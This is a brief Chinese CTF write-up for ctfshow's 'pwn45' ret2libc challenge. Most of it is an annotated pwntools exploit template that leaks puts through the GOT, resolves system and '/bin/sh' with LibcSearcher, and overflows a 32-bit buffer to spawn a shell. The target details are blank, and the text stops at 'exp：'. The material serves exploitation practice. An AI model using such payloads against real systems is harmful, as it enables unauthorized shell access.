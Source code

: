 

## pwn45

ctfshow的第一道ret2libc

借用夏师傅博客的板子（再从其他佬的博客那补了点注释

```python
from pwn import *
from LibcSearcher import *

io = remote('', )
# io = process("")
elf = ELF('')
# libc= ELF('libc.so.6')
# 加载ELF（可执行和可链接格式）二进制文件到elf对象中，使我们能够轻松访问符号、地址和段
main_add =
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

print("Puts_got: ", hex(puts_got))
print("Puts_plt: ", hex(puts_plt))

offset =

payload1 = b'a' * (offset + 4) + p32(puts_plt) + p32(main_add) + p32(puts_got)
io.sendlineafter(b'', payload1)
puts_addr = u32(io.recvuntil(b'\xf7')[-4:])     
# 接收数据，直到遇到字节\xf7（在32位系统中，很多共享库（如libc）的地址高字节是\xf7）
# 取接收到的数据的最后 4 个字节，因为 puts 函数的地址是 32 位（4 个字节）
# 泄露 puts 函数在 GOT 表中的实际地址
print("Puts_addr: ", hex(puts_addr))

libc = LibcSearcher('puts', puts_addr)

libc_base = puts_addr - libc.dump('puts')
system_add = libc_base + libc.dump('system')
bin_sh_add = libc_base + libc.dump('str_bin_sh')

# libc_base = puts_addr - libc.symbols['puts']
# system_add = libc_base + libc.symbols['system']
# bin_sh_add = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'a' * (offset + 4) + p32(system_add) + p32(0x0) + p32(bin_sh_add)
# 0x0作为占位符填充返回地址的后续字节，以确保返回地址被正确覆盖
io.sendlineafter(b'', payload2)

io.interactive()
```

填写板子

exp：
